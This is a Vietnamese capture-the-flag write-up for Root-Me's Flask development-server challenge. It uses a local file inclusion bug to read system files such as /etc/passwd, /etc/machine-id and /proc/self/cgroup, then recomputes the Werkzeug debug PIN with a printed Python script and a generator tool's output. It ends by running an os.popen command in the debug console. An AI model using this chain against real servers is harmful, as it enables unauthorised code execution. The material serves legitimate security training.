





# Flask - Development Server

**Tên challenge:**  You need to debug this !

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Flask-Development-server)

**Tác giả challenge:** Sanlokii

**Mục tiêu challenge:**
Flask-me’s web developer tells you that the website is ready for deployment.
Check that the site is secure before going into production.

The flag is located in the application’s web directory.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta sẽ thấy trang Web đơn giản như sau:



Sau khi CLick thử từng chỉ mục trên Website thì chỉ có duy nhất `SERVICES` là sử dụng được và nó show ra 1 chức năng khác của ứng dụng:



**B2:** Ta thử nhập `/etc/passwd` để xem liệu chức năng này có bị LFI không:



=> Chức năng này của Website bị LFI.

Tuy nhiên, ta không thể biết được tên chính xác của file chứa `Flag` nên không thể nào tận dụng lỗ hổng LFI để đọc `Flag`.

Vậy giờ, chúng ta phải làm gì tiếp theo ?

* **Trả lời:** Khi ta đọc lại tên Challenge là `Flask - Development Server` thì ta sẽ nghĩ đến tính năng `Debug Flask` của Python.
* Cụ thể thì tính năng này sẽ giúp Developer có thể thực thi code trên trang Web thông qua endpoint `/console` trong quá trình phát triển sản phẩm. Ngoài thực tế thì tính năng `Debug` này sẽ không được bật vì tính rủi ro, nhưng nhiều lúc các `Developer` sẽ bất cẩn và bật tính năng này để thao tác với trang Web nhưng lại quên tắt.

**B4:** Ta thử truy cập endpoint `/console` để xem có thể thực thi code trên Web không.

Ta nhận được 1 thông báo yêu cầu nhập mà `PIN DEBUG`:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

Đây là 1 cơ chế bảo vệ nhằm phòng tránh các trường hợp các anh `Developer` bất cẩn quên tắt tính năng `Debug` thì cũng sẽ không bị kẻ xấu truy cập được.

Tuy nhiên, có 1 điểm thú vị về mã `PIN` này là ta có thể tìm ra được nó.

Bạn có thể xem qua file tạo ra mã PIN thông qua đọc file `__init__.py` nằm trong gói thư viện `werkzeug` của `Python`. Trong file `__init__.py` này sẽ trình bày rõ cơ chế tạo khoá `PIN DEBUG`. Hoặc bạn cũng có thể xem file `__init__.py` ở trên `github`: https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/_\_init__.py.

Tuy nhiên, bạn vẫn nên xem file `__init__.py` ở trên Server vì có thể Developer sẽ dùng thuật toán khác,...

Thông thường thì file `__init__.py` nằm ở đường dẫn sau đây:
```
/usr/local/lib/python3.5/dist-packages/werkzeug/__init__.py
```
Nhưng đây là bản `python3.5`, còn Server đang chạy ở bản `python3.11` ( dùng [Wappalyzer Extension Google Chrome](https://chromewebstore.google.com/detail/wappalyzer-technology-pro/gppongmhjkpfnbhagpmjfkannfbllamg?hl=vi) để biết ) cho nên đường dẫn sẽ khác 1 chút, ngoài ra còn có thể phụ thuộc vào Developer cài Python trên Server ở thư mục nào nữa.

Do đó, ta có thể bỏ qua bước này nếu không thể tìm được đường dẫn chính xác của `werkzeug` trên ứng dụng và ta vẫn có thể xem file `__init__.py` trên Github như 1 cách thay thế.

**B4:** Ta cần đọc nội dung sau đây trong file `__init__.py`
```
def get_pin_and_cookie_name(app):
    pin = os.environ.get('WERKZEUG_DEBUG_PIN')
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == 'off':
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace('-', '').isdigit():
        # If there are separators in the pin, return it directly
        if '-' in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, '__module__',
                      getattr(app.__class__, '__module__'))

    try:
        # `getpass.getuser()` imports the `pwd` module,
        # which does not exist in the Google App Engine sandbox.
        username = getpass.getuser()
    except ImportError:
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, '__name__', getattr(app.__class__, '__name__')),
        getattr(mod, '__file__', None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv, cookie_name
```
Đoạn code trên là đoạn code tạo ra mã `PIN DEBUG`, và để khai thác được mã `PIN` thì ta cần phải chú ý những biến sau đây:
```
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```
Đừng hoảng sợ, tôi sẽ giải thích ý nghĩa và cách lấy giá trị từng biến:

**1. Giải thích:**
* `username` là người đã khởi chạy Flask.

* `modname` mặc định là `flask.app`

* `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` mặc định là `Flask`

* `getattr(mod, '__file__', None)` là đường dẫn tuyệt đối đến file `app.py` trong thư mục `flask` của Python

* `uuid.getnode()` là địa chỉ MAC của Server hiện tại và `str (uuid.getnode ())` là địa chỉ MAC của Server hiện tại nhưng đã được chuyển đổi thành dạng thập phân

* `get_machine_id()`: ID của máy.

**2. Cách lấy:**
* `username`:
    * Đầu tiên bạn sẽ đọc nội dung của file `/proc/self/status`, sau đó bạn tìm dòng `UID` ( **VD:** `Uid:    1000    1000    1000    1000` )
    * Sau đó, bạn đọc tiếp nội dung file `/etc/passwd` rồi tìm `UID` tương ứng sẽ ra username đó ( **VD:** `user:x:1000:1000::/home/user:/bin/sh` => `username` là `user`)

* `modname` mặc định là `flask.app`

* `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` mặc định là `Flask`

* `getattr(mod, '__file__', None)`: là đường dẫn tuyệt đối của file `app.py` trong `Flask` của Python ( **VD:** `/usr/local/lib/python3.10/site-packages/flask/app.py` )

* `uuid.getnode()`:
    * Đầu tiên, bạn phải đọc file `/proc/net/arp` để lấy `DEVICE ID`
    
    * **VD:**
```
IP address       HW type     Flags       HW address            Mask     Device
172.22.0.3       0x1         0x2         02:42:ac:16:00:03     *        eth0
```

* => `DEVICE ID` của Website là `eth0`

    * Tiếp theo, bạn sẽ lấy địa chỉ MAC thông qua đọc file sau đây: `/sys/class/net/<device id>/address` thay `<device id>` thành `eth0` ta sẽ được: `/sys/class/net/eth0/address`.
    * Sau khi lấy được mã MAC thì bạn phải chuyển nó sang nhị phân bằng cách sau:
```
# Example MAC address: 02:42:ac:16:00:02
$> python

Python 3.10.15 (main, Nov 12 2024, 02:24:06) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.

>>> print(0x0242ac160002)
2485378220034
```
=> `uuid.getnode()` = `2485378220034`

* `get_machine_id()`:
    * Bạn sẽ đọc nội dung của hai file sau: `/proc/sys/kernel/random/boot_id` và `/etc/machine-id`, chỉ có 1 file sẽ trả về kết quả vì tuỳ máy mà Machine ID sẽ nằm ở 1 trong 2 file trên.
    * Sau khi có được kết quả rồi, bạn hãy tạm lưu nó ra nháp, kế đến bạn sẽ đọc tiếp file `/proc/self/cgroup` nhưng chỉ đọc dòng đầu tiên của file và lấy giá trị sau dấu `/` cuối cùng.

**VD:**
```
$ cat /proc/self/cgroup
29:name=systemd:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
28:misc:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
27:rdma:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
26:pids:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
25:hugetlb:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
24:net_prio:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
23:perf_event:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
22:net_cls:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
21:freezer:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
20:devices:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
19:memory:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
18:blkio:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
17:cpuacct:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
16:cpu:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
15:cpuset:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
0::/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
```
Bạn chỉ copy dòng đầu tiên ra là `29:name=systemd:/docker/e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d`, sau đó lấy giá trị ở sau dấu `/` cuối cùng tức là `e58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d`.

Cuối cùng, bạn lấy chuỗi vừa lấy được đem đi thêm vào đằng sau của chuỗi `Machine ID` mà tôi bảo bạn lưu vào nháp ở trên và bạn sẽ được chuỗi có dạng như sau:
```
579cb1c1-d66e-4bff-8f9d-630242ce704de58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
```

Thế là ta đã xong phần lấy giá trị của các biến rồi, bây giờ ta sẽ dùng code python sau và thay từng giá trị vào và ta sẽ được code tạo ra mã `PIN DEBUG` của Server:
```python
import hashlib
from itertools import chain
probably_public_bits = [
        'web-app',# username
        'flask.app',# modname
        "Flask",# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/home/web-app/.local/lib/python3.11/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
        '2485377826846',# str(uuid.getnode()),  /sys/class/net/ens33/address
        '2d8fd891-f91a-48d5-9fcd-d1e533e4c832'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1() # sometimes will be h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num
print(rv)
```
Bạn chỉ cần thay những giá trị bạn vừa tìm được vào code trên thôi.

<u>**Lưu ý:**</u> Đôi lúc dòng `h = hashlib.sha1()` có thể là `h = hashlib.md5()`, đó là lý do tôi bảo bạn nên đọc file `__init__.py` của Server để dựa trên đó mà chỉnh code cho đúng, nếu không sẽ không ra đúng mã `PIN DEBUG` của Server. Tuy nhiên, bạn có thể Generate `PIN` ra theo 2 thuật toán trên nếu bạn không thể tìm được thư mục chính xác của file `__init__.py` trên ứng dụng và thử lần lượt xem cái nào được.

Sau khi chỉnh xong, thì ta sẽ chạy file và có được mã `PIN`.

<u>**Thông tin thêm:**</u> Ngoài ra, có thể đôi lúc bạn thay thế hoặc tính toán các giá trị không chính xác thì cũng sẽ dẫn đến kết quả sai, cho nên tôi khuyến nghị bạn nên dùng [Tool](https://github.com/SidneyJob/Werkzeuger) để sinh ra mã `PIN` tự động mà không cần tính toán trong trường hợp ta không đọc được file `__init__.py` trên ứng dụng.

<u>**Hướng dẫn sử dụng tool:**</u>

* Giả sử ta thu thập được các thông tin sau:
```
Username: web-app
Modname: flask.app
Appname: Flask
Path: /home/web-app/.local/lib/python3.11/site-packages/flask/app.py
Mac: 02:42:ac:10:00:1e
Machine-id: 2d8fd891-f91a-48d5-9fcd-d1e533e4c832
Cgroup ( lấy cả dòng đầu tiên của cat /proc/self/cgroup ): 12:blkio:/user.slice
```
* Ta sẽ tiến hành dùng tool như sau:
```
$> python gen.py --username web-app --path '/home/web-app/.local/lib/python3.11/site-packages/flask/app.py' --modname flask.app --appname Flask --mac '02:42:ac:10:00:1e' --machine_id '2d8fd891-f91a-48d5-9fcd-d1e533e4c832' --cgroup '12:blkio:/user.slice'


                        ¶         ¶
                         ¶         ¶
                     ¶   ¶         ¶   ¶
                     ¶  ¶¶         ¶¶  ¶
                     ¶¶ ¶¶¶       ¶¶¶ ¶¶
             ¶      ¶¶   ¶¶¶     ¶¶¶   ¶¶      ¶
            ¶¶      ¶¶   ¶¶¶     ¶¶¶   ¶¶      ¶¶
           ¶¶      ¶¶    ¶¶¶¶   ¶¶¶¶    ¶¶      ¶¶
           ¶¶     ¶¶¶    ¶¶¶¶  ¶¶¶¶¶    ¶¶¶     ¶¶¶
       ¶  ¶¶¶    ¶¶¶¶    ¶¶¶¶   ¶¶¶¶    ¶¶¶¶   ¶¶¶¶  ¶
       ¶¶ ¶¶¶¶¶  ¶¶¶¶   ¶¶¶¶¶   ¶¶¶¶¶   ¶¶¶¶  ¶¶¶¶¶ ¶¶
       ¶¶ ¶¶¶¶¶  ¶¶¶¶¶¶¶¶¶¶¶     ¶¶¶¶¶¶¶¶¶¶¶  ¶¶¶¶¶ ¶¶
       ¶¶ ¶¶¶¶¶  ¶¶¶¶¶¶¶¶¶¶¶     ¶¶¶¶¶¶¶¶¶¶¶  ¶¶¶¶¶ ¶¶
      ¶¶¶  ¶¶¶¶   ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶   ¶¶¶¶  ¶¶¶
     ¶¶¶¶  ¶¶¶¶   ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶   ¶¶¶¶  ¶¶¶¶
    ¶¶¶¶   ¶¶¶¶¶ ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶ ¶¶¶¶¶   ¶¶¶¶
   ¶¶¶¶    ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶   ¶¶¶¶
   ¶¶¶¶¶  ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶  ¶¶¶¶
    ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
    ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
     ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
     ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
      ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
     ¶¶¶¶¶           ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶           ¶¶¶¶¶
     ¶¶¶¶¶¶             ¶¶¶¶¶¶¶¶¶¶¶¶¶             ¶¶¶¶¶¶
      ¶¶¶¶¶¶¶        ..     ¶¶¶¶¶¶¶¶¶     ..        ¶¶¶¶¶¶
       ¶¶¶¶¶¶¶¶             ¶¶¶¶¶             ¶¶¶¶¶¶¶¶
        ¶¶¶¶¶¶¶¶¶¶           ¶¶¶           ¶¶¶¶¶¶¶¶¶¶
           ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
              ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶   ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
                  ¶¶¶¶¶¶¶¶¶¶     ¶¶¶¶¶¶¶¶¶¶
                   ¶¶¶¶¶¶¶¶       ¶¶¶¶¶¶¶¶
                  ¶¶¶¶¶¶¶¶¶       ¶¶¶¶¶¶¶¶¶
                  ¶¶¶¶¶¶¶¶¶ ¶¶¶¶¶ ¶¶¶¶¶¶¶¶¶
                 ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶
                 ¶¶¶  ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶  ¶¶¶
                  ¶¶  ¶¶¶¶  ¶¶¶¶¶  ¶¶¶¶  ¶¶
                      ¶¶¶¶  ¶¶¶¶¶  ¶¶¶¶


__          __             _
\ \        / /            | |
 \ \  /\  / /   ___  _ __ | | __ ____  ___  _   _   __ _   ___  _ __
  \ \/  \/ /   / _ \| '__|| |/ /|_  / / _ \| | | | / _` | / _ \| '__|
   \  /\  /   |  __/| |   |   <  / / |  __/| |_| || (_| ||  __/| |
    \/  \/     \___||_|   |_|\_\/___| \___| \__,_| \__, | \___||_|
                                                    __/ |
                                                   |___/


                Author:  https://github.com/SidneyJob
                Channel: https://t.me/SidneyJobChannel

[+] Success!
[*] PIN: 127-238-586
[*] Cookie: __wzdb1e47176f310e73f3314=1733281046|a79d0a7235a4
[*] Modname: flask.app
[*] Appname: wsgi_app

[+] Success!
[*] PIN: 196-186-932
[*] Cookie: __wzd7ccff39bc85b370db0c1=1733281046|09e1568891f7
[*] Modname: flask.app
[*] Appname: DebuggedApplication

[+] Success!
[*] PIN: 233-954-601
[*] Cookie: __wzd0b1910ef36f1edb5d592=1733281046|d077eb066a34
[*] Modname: flask.app
[*] Appname: Flask

[+] Success!
[*] PIN: 233-954-601
[*] Cookie: __wzd0b1910ef36f1edb5d592=1733281046|d077eb066a34
[*] Modname: flask.app
[*] Appname: Flask

[+] Success!
[*] PIN: 526-339-984
[*] Cookie: __wzdc4637ea1361e5a6f5bc8=1733281046|46909e8eda23
[*] Modname: werkzeug.debug
[*] Appname: wsgi_app

[+] Success!
[*] PIN: 740-176-798
[*] Cookie: __wzd9c033687e9f3c510a643=1733281046|d50320007301
[*] Modname: werkzeug.debug
[*] Appname: DebuggedApplication

[+] Success!
[*] PIN: 909-012-002
[*] Cookie: __wzda1670f07ac1aeb194b06=1733281046|323a43d082d1
[*] Modname: werkzeug.debug
[*] Appname: Flask

[+] Success!
[*] PIN: 909-012-002
[*] Cookie: __wzda1670f07ac1aeb194b06=1733281046|323a43d082d1
[*] Modname: werkzeug.debug
[*] Appname: Flask

[+] Success!
[*] PIN: 127-238-586
[*] Cookie: __wzdb1e47176f310e73f3314=1733281046|a79d0a7235a4
[*] Modname: flask.app
[*] Appname: wsgi_app

[+] Success!
[*] PIN: 196-186-932
[*] Cookie: __wzd7ccff39bc85b370db0c1=1733281046|09e1568891f7
[*] Modname: flask.app
[*] Appname: DebuggedApplication

[+] Success!
[*] PIN: 233-954-601
[*] Cookie: __wzd0b1910ef36f1edb5d592=1733281046|d077eb066a34
[*] Modname: flask.app
[*] Appname: Flask

[+] Success!
[*] PIN: 233-954-601
[*] Cookie: __wzd0b1910ef36f1edb5d592=1733281046|d077eb066a34
[*] Modname: flask.app
[*] Appname: Flask

[+] 12 payloads are successfully generated!
```

**B5:** Ta nhập từng mã `PIN` trên vào `/console` và 1 trong những payload trên đã thành công vào được `Interactive Console`


Tiếp theo, ta sẽ thực thi Command đọc `Flag` bằng cách nhập lệnh sau:
```
[console ready]
>>>  __import__('os').popen('cat *.txt').read()
```

=> Ta đã thành công đọc được `Flag`.

<u>**Đọc thêm:**</u> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#code-for-get_machine_id